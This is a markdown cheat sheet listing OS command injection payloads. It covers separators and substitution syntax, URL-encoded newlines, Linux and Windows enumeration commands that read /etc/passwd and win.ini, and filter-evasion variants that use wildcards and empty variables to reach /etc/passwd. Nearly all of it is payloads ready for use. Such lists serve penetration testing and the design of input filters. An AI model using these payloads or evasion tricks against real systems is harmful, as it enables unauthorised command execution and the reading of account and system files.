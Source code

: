 # Results-Based Command Injection List

Search Tag(s): #helpers #command-injection

## Symbols

### Redirection

```
<
>>
>
```

### Pipe

```
|
a|
a)|
```

### Chain Commands

Linux

```
;
$;
a;
a);
```

Windows

```
&
```

### Logical

```
&&
||
```

### Command substitution

Linux

```
#
'
"
!
`<command>`
$(<command>)
$(`<command>`)
${<command>}
```

### New line feed

Linux

```
\n
0x0A
0x0a
%0A
%0a
```

Windows

```
\r
0x0D
0x0d
%0D
%0d
\r\n
0x0A0x0D
0x0a0x0d
%0A%0D
%0a%0d
```

## Enumeration Command Injection

### General

```
whoami
pwd
```

### Linux

Enumerate user privileges

```
id
```

Enumerate users

```
cat /etc/passwd
strings /etc/passwd
while read line; do echo $line; done < /etc/passwd
while IFS= read -r line;do echo "$line"; done < /etc/passwd
while IFS=: read -r username password userid groupid comment homedir cmdshell;do echo "$username, $userid, $comment $homedir"; done < /etc/passwd
```

### Windows

```
type C:\windows\win.ini
```

## I/O Redirection

### Input

Linux

```
cat < /path/to/file.txt
strings < /path/to/file.txt
```

### Output

Linux

```
ls > /path/to/file.txt
ls >> /path/to/file.txt
$(ls) > /path/to/file.txt
$(ls) >> /path/to/file.txt
```

## Filter Evasion

Linux

```
/bin/cat /e??/p??s??
/bin/cat /e*/pa*wd
/bin/cat /et*/pa*wd
/bin/cat /et*/pa**wd
cat$u /etc$u/passwd
```

---
## References

- [PayloadsAllTheThings: Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

- [OS Command Injection tutorial – Part #1 (Basics and Filter Evasion)](https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/)

- [SecJuice: Bypass Strict Input Validation With Remove Prefix and Suffix Patterns](https://www.secjuice.com/bypass-strict-input-validation-with-remove-suffix-and-prefix-pattern/)